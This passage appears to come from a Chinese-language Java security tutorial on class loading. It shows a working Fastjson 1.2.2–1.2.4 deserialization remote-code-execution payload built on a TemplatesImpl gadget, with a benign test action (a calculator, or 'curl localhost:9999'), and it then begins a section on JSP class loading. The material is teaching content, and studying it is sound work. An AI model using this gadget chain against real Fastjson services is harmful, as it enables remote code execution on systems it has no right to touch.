 ```java
				byte[][].class, String.class, Properties.class, int.class, TransformerFactoryImpl.class
		);

		// 修改访问权限
		constructor.setAccessible(true);

		// 创建TemplatesImpl实例
		TemplatesImpl template = constructor.newInstance(
				new byte[][]{CLASS_BYTES}, "", new Properties(), -1, new TransformerFactoryImpl()
		);

		template.getOutputProperties();
	}

	/**
	 * Fastjson 1.2.2 - 1.2.4反序列化RCE示例
	 */
	public static void fastjsonRCE() {
		// 构建恶意的JSON
		Map<String, Object> dataMap = new LinkedHashMap<String, Object>();
		dataMap.put("@type", TemplatesImpl.class.getName());
		dataMap.put("_bytecodes", new String[]{encodeBase64String(CLASS_BYTES)});
		dataMap.put("_name", "");
		dataMap.put("_tfactory", new Object());
		dataMap.put("_outputProperties", new Object());

		// 生成Payload
		String json = JSON.toJSONString(dataMap);
		System.out.println(json);

		// 使用FastJson反序列化，但必须启用SupportNonPublicField特性
		JSON.parseObject(json, Object.class, new ParserConfig(), Feature.SupportNonPublicField);
	}

	public static void main(String[] args) throws Exception {
//		invokeField();
//		invokeConstructor();
		  fastjsonRCE();
	}

}
```

在MacOS和Windows上执行示例程序后会弹出计算器，Linux会执行`curl localhost:9999`。



## JSP类加载

JSP是JavaEE中的一种常用的脚本文件，可以在JSP中调用Java代码，实际上经过编译后的jsp就是一个Servlet文件，JSP和PHP一样可以实时修改。
